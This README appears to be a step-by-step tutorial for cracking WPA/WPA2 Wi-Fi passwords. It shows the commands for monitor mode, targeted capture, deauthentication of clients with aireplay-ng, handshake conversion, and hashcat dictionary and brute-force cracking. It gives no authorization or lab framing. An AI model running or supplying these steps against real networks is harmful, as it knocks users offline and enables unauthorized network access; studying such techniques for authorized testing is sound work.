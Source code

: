 ## Crack WIFI Password (WPA/WPA2) using Aircrack-ng

Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- **GPU** for `hashcat`

### Lets capture the flag (I mean \*Handshake):

Open terminal.....

#### Terminal-1:

1. Detect your wireless network interface :

   > ifconfig

   ![Network interface](images/interfaces.png)

   **Note:** Here <i>wlp3s0</i> is my wireless interface.

   **if coudn't find command then try :**

   > /sbin/ifconfig

2. Start monitor mode :

   > sudo airmon-ng start wlp3s0

   ![Monitor mode](images/monitor_mode.png)

3. capture traffic :

   > sudo airodump-ng wlp3s0mon

   ![Monitoring](images/monitoring.png)

#### Terminal-2:

4. select target and focus on one AP on channel:

   > sudo airodump-ng --bssid xx.xx.xx.xx.xx.xx -c y --write filename wlp3s0mon

   - **xx.xx.xx.xx.xx.xx** defines : **AP BSSID** -> 00.11.22.33.44.55 (suppose)
   - **y** defines : **AP channel** -> 10 (suppose)
   - **filename** is the file name where the **handshake** will captute and make some other stuffs .

   ![Target Monitoring](images/target.png)

#### Terminal-3:

5. Send traffic to the channel :

   > sudo aireplay-ng --deauth y -a xx.xx.xx.xx.xx.xx wlp3s0mon

   - ammoun of **traffic**-> y

   ![Deauth](images/deauth.png)

6. Capture handshake : it will be shown in the monitor if captured ! at **Terminal-2**.

   ![Captured handshake](images/handshake_captured.png)

7. Now you got the handshake **(terminal-2)**
8. Stop the process of terminal-2 : `ctrl+c`

### Now Lets crack the password !

**There will be a WPAcrack-01.cap file in your home directory**

1. convert cap file into hccapx file : https://www.onlinehashcrack.com/tools-cap-to-hccapx-converter.php

or

1.  use **mr.wifibrute.c** file to convert the **cap** file to **hccapx** file

    > gcc mr.wifibrute.c -o mr.wifibrute && ./mr.wifibrute file.cap file.hccapx

    ![cap to hcappx](images/capToHccapx.png)

    **Note :** cap to pkid (in case of pkid) :

    > hcxpcaptool -z pmkidhash suva-01.cap

1.  Crack password using **hashcat** :

    - **Install hashcat :** `sudo apt install hashcat`
    - check is everything oky ? : `hashcat -I` **to use hashcat you need gpu**
    - crack password :

      > hashcat -m 2500 wpacrack.hccapx dictionary.txt

      - dictionary.txt -> word list (suppose)
      - wpacrack.hccapx is the handshake file

      ![Hashcat running](images/hashcat.png)

      ![Hashcat Status](images/hashcat_status.png)

- Bruteforce :
  Example (bruteforce for length 8 password using 0-9 digits) :

  > hashcat -a 3 -m 16800 pmkidhash ?d?d?d?d?d?d?d?d

  Then you will get the password (if you are lucky enough).
  ![password](images/pass.png)
  here password : secret

- Others :
  All ready cracked pass check :

  > hashcat -m 2500 test.mr.wifibrute rockyou.txt --show

